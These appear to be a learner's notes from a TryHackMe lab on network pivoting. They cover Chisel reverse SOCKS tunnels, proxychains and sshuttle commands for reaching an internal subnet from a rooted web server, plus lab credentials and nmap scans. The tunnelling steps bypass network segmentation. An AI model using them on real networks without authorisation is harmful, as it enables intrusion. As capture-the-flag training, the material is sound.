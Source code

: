 Now that you have gained root access to L-SRV01, you need to identify where to go next. You know there are no other external machines in scope, so you decide to move into the internal network. To gain access to the internal subnet, you need to perform what is known as pivoting.

In a well-maintained network, often referred to as a "Segmented Network," there are specific rules in place preventing users from accessing certain parts of the Internal LAN (ex. The Workstation Subnet should not be able to access the Server Subnet). We will need to "pivot" from an already compromised server using a SOCKs server or other means like port forwarding to access different network resources.  

There are several tools outlined below that can help us in pivoting.  

- sshuttle
- Chisel
- Ligolo
- Metasploit autoroute

In this task, we will be focusing on both Chisel and sshuttle, each offering unique ways to approach pivoting.  

## Chisel

The first tool that we will be looking at is Chisel. From the Chisel GitHub, *"Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable, including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*  

From the Chisel GitHub, below is an overview of chisel architecture.

![[Task 23 - Digging a tunnel to nowhere-20240926150119258.webp]]

To begin using Chisel, we must first download the tool. If you utilize the stable release or docker, you will not need to download any dependencies. If you compile from source, you will need to install a few dependencies outlined on their GitHub. There are three common ways of obtaining the tool, outlined below.  

- Stable release: [](https://github.com/jpillora/chisel/releases)[https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
- Docker: `docker run --rm -it jpillora/chisel --help`
- Source: `go get -v [github.com/jpillora/chisel](<http://github.com/jpillora/chisel>)`

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.  

To create a SOCKs server with Chisel, you will only need two commands ran on the target and the attacking machine, outlined below.  

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Now that we have a SOCKs server set up, we need to interpret and manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the proxy in the command line. To add the SOCKs server to proxychains, you will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![[Task 23 - Digging a tunnel to nowhere-20240926150205470.webp]]

You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route through the proxy with proxychains. An example usage can be found below.  

Example usage: `proxychains curl http://<IP>`



## sshuttle
The second tool we will be looking at is sshuttle. Sshuttle is unique in its approaches to pivoting because all of its techniques are done remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are that <u>it will only work if there is an ssh server running on the machine</u>, and it <u>will not work on Windows hosts</u>. You can download sshuttle from GitHub, [https://github.com/sshuttle/sshuttle](https://github.com/sshuttle/sshuttle)  

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this parameter, you will specify the user and target like you would for a standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of syntax below.  

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`

For more information about sshuttle and how to use it, check out the documentation, [https://sshuttle.readthedocs.io/en/stable/overview.html](https://sshuttle.readthedocs.io/en/stable/overview.html).


---

# Your job

Before you can pivot, you do need to know where you are in the network and where you are trying to get to.
Creating a Network Diagram is the best way to do it.

![[Diagram.svg]]

The above diagram shows the route: 
- You went via a docker container and back to the host that had the 4 websites right back at the start. 
- Then you got root on that via docker.
- You added a SSH key so you now have direct access to that box via SSH as either the **root** user or the **linux-admin** user with the cracked password.
- Looking at y your THM dashboard, two new IP have appeared, which are 10.200.X.30 and 10.200.X.31. 
- You cannot ping this from your host, so instead you will have to pivot through the webserver (L-SRV01) host to gain access to it.

## Pivoting with chisel

- SSH to L-SRV01 with the following credentials:
	User: `linux_admin`
	Password: `linuxrulez`
	`ssh linux_admin@10.200.X.33`
or
- [[Task 21 - From the Shadows#SSH to the victim machine with a key]]

- On the attacking machine: `./chisel server -p 8000 --reverse`

- On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

## Pivoting with sshuttle


> [!Note]
The command requires a few bits of information, these include: 
The username and address of your pivot target.
A keyfile if you are using a key pair (which you are).
The subnet you want to gain access too and you need to remove the IP you are connecting too, otherwise everything gets very confused. This translates to:
`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET -x <IP>`


- Run on the attacking machine the following command:
	`sshuttle -r root@admin.holo.live --ssh-cmd "ssh -i /home/kali/.ssh/id_rsa" 10.200.X.0/24 -x 10.200.X.33`
	![[Task 23 - Digging a tunnel to nowhere-20241008134113133.webp]]

- On another terminal connect via SSH.
	`ssh root@admin.holo.live -i /home/kali/.ssh/id_rsa` 

- Run nmap against the target 10.200.X.31.
	root@ip-10-200-95-33:~# `nmap 10.200.95.31 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008140800233.webp]]

- Look at the internal network.
	root@ip-10-200-95-33:~# `nmap 10.200.X.0/24 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008141821503.webp]]
	
You've found the following 5 hosts available:

	- 10.200.95.30
    - 10.200.95.31
    - 10.200.95.32
    - 10.200.95.33
    - 10.200.95.35


**Next step:** [[Task 24 - Command your Foes and Control your Friends]]